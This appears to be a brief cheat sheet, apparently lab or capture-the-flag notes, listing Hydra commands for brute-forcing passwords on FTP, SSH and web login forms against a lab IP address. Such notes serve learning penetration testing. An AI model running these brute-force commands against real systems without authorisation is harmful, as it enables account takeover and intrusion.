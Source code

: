 Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.

FTP
> hydra -l user -P passlist.txt ftp://10.10.149.128

SSH
> hydra -l {UserName} -P {Wordlist path} 10.10.149.128 -t 4 ssh

Post Web Form
> hydra -l {UserName} -P {Wordlist path} 10.10.149.128 http-post-form "/login:username=^USER^&password=^PASS^:{Add incorrect message from web page here}" -V

